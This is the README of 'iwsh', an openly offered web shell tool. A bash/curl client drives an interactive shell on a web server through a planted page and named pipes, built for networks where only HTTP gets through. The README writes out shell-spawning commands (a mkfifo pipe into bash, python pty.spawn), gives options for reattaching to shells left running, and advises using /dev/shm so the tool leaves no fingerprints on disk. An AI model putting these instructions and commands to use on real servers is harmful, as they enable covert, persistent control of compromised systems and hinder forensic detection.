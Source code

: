 # iwsh (INTERACTIVE WEB SHELL)


##### *The goal of the project is to create a fully interactive shell based on a web server without the need for any additional network connections.*


I was inspired by a situation where I couldn't create any new connections except for web connections over the HTTP protocol.
After spending several days i didn't find works solution. First problem is was create established process, so project create independent process of http requests on server. 

This project communicate over named pipes that create in file system. Interactive shell using two pipes. First pipe for **stdin** default `/tmp/i` that web server write data to from user. Second pipe use for **stdout** and **stderr** defualt `/tmp/o` that web server read data from shell and return to user via Chunked Transfer Encoding that available in `HTTP/1.1`. Streaming data transfer from **stdout** and **stderr** helps reduce the number of requests. I recommend use direcotry `/dev/shm` instead of `/tmp` or other directory that do not leave any fingerprints on disk. `--stream` helps reduce the number of requests to just two. All data will be sent over a TCP connection. Currently only available for Java Servlet. 

The project consists of two files: 1) client is written in bash by use **curl** for communication with web server. 2) page for web server for communicate with client and server-side shell.

**PHP** has some limitation for request chunked, so not easily create two-way streaming for PHP server. I believe that can be created by other client or even better use one page on server with javascript for create full interactive webshell in browser. I don't know very well JavaScript and all of web stack that spend time for create some of this. So I hope someone will be interested in continuing to help develop the project.

---

###### Available options in client:
1. Run command in not interactive shell (by default) 
	Example: `./client --url http://localhost/mypage.php` 
2. Run command in interactive shell without tty 
	Example: `./client --url http://localhost/mypage.php -i`
3. Run command in interactive shell with tty. For this option client has several predefined command for spawning pseudo tty: `--stty-python`, `--stty-expect`, `--stty-script`. You can use own command for spawning tty. You must provide the command as one argument, so please don't forget `\"` use: `--stty-custom "/custom/path/python2.7 -c \"import pty; pty.spawn('/bin/zsh')\""`
    Example: `./client --url http://localhost/mypage.php -i --stty-raw --stty-python --alias`

###### Stty options:
- By default client running in normal mode and read command line by line. In this mode client can't read special keys some of `ctrl+c`, `ctrl+d`, `ctrl+r`, `ctrl+l` and *etc*.
- When you want change **stty option** you don't need push `ctrl+z` after run command: `stty raw -echo; fg` Instead you must use client commands, because client use two different approach for reading input in different modes.
- If you want to run client in **raw mode** you must use: `--stty-raw` or if client running in **normal mode** you can use command to switch from **normal mode** to **raw mode** use: `%:stty_raw`
- When client running in **raw mode** you can switch to **normal mode** use the key combination: `ctrl+alt+s`. To exit the program in **raw mode**, use the key combination `ctrl+alt+q`.


###### Help menu:

- `-h`, `--help`: Display help menu
- `-u`, `--url`: The URL to the file: `--url http://localhost:8080/webshell.php`
- `-curl`, `--curl`: Script communicate with shell by curl. You can add arguments to curl, usage: `--curl '-X POST' -A 'My User-Agent 2.0'`
- `-i`, `--interactive`: Switch to interactive shell.
- `--stty-raw`: Switch stty to raw mode. Switch to normal mode: `ctrl+alt+s`. While normal mode run switch to raw mode write command: `%:stty_raw`
- `--stty-python`: Send command to run python tty mode: `python -c "import pty; pty.spawn('$shell')"`
- `--stty-expect`: Send interactive command to run expect tty mode: 0)`expect` 1)`spawn $shell` 2)`interact`
- `--stty-script`: Send command to run script tty mode: `script -qc /bin/bash /dev/null`
- `--stty-custom`: Send command to run custom tty mode: `--stty-custom "/custom/path/python2.7 -c \"import pty; pty.spawn('/bin/zsh')\""`
- `--alias`: Send command for setup alias and export TERM: `export TERM=xterm-256color; alias ls='ls --color'; alias ll='ls -lsaht --color'`
- `--alias-custom`: Send command to setup custom alias and other command: `--alias-custom "export TERM=screen-256color; alias ls='ls --color'; alias ll='ls -lsaht --color'"`
- `--shell`: Change from default `bash` to any shell for spawning interactive shell and stty: `--shell /usr/sbin/sh`
- `-ish`, `--init-shell`: Change default command for spawning interactive shell: `--init-shell "rm -f /tmp/i /tmp/o; mkfifo /tmp/i /tmp/o; bash -c 'exec 5<>/tmp/i; cat <&5| bash  2>/tmp/o >/tmp/o'"`
- `-fi`, `--fi`: Interactive shell works on named pipes, so change name of stdin pipe: `--fi /dev/shm/some_input_pipe`
- `-fo`, `--fo`: Interactive shell works on named pipes, so change name of stdout, stderr pipe: `--fo /dev/shm/some_output_pipe`
- `-d`, `--default`: Script by default works with no interactive webshell. So flags set default interacte option: `--interactive`, `--stty-raw`, `--stty-python`, `--alias`. If you want change some of option you need provide next option after default options. `-d --stty-script --shell /bin/bash`
- `--attach`: Join a detached running shell process. To join the right shell, you need to use the same pipes that the shell process uses: `--attach --fi /dev/shm/i --fo /dev/shm/o`
- `--stream`: Create request stream. Available for Java Servlet, not working with php: `--stream`

To exit in normal mode stty usage: `ctrl+c` or write: `%:exit`. To exit in raw mode stty usage: `ctrl+alt+q`

If you want **create several instance** of client with interactive shells you need use **different pipes** for everyone instance by use: `--fi` and `--fo`
Don't forget that sever-side process will running even client is close. So if you don't want leaving running process on server-side and leaving any files, You have to manually kill process and remove files. 

---

**Acknowledgments:**
A heartfelt thank you! Your support has been invaluable.

**Special Thanks To:**
1. [@justOleh](https://github.com/justOleh)

---

If you'd like to show your appreciation, you can buy me a cup of coffee:

**Bitcoin Wallet:**
[bc1qtnz9s7l35aaappzrdsjdjxpze04ld0x5umk7yh](bitcoin:bc1qtnz9s7l35aaappzrdsjdjxpze04ld0x5umk7yh?message=Buy%20me%20a%20cup%20of%20coffe)

---

For any inquiries or just to say hello, my contact information is below. Feel free to reach out:

**Contact:**
- **Email:** [numquam_scire@proton.me](mailto:numquam_scire@proton.me)
- **XMPP Protocol:** [death_bee@xmpp.is](xmpp:death_bee@xmpp.is)


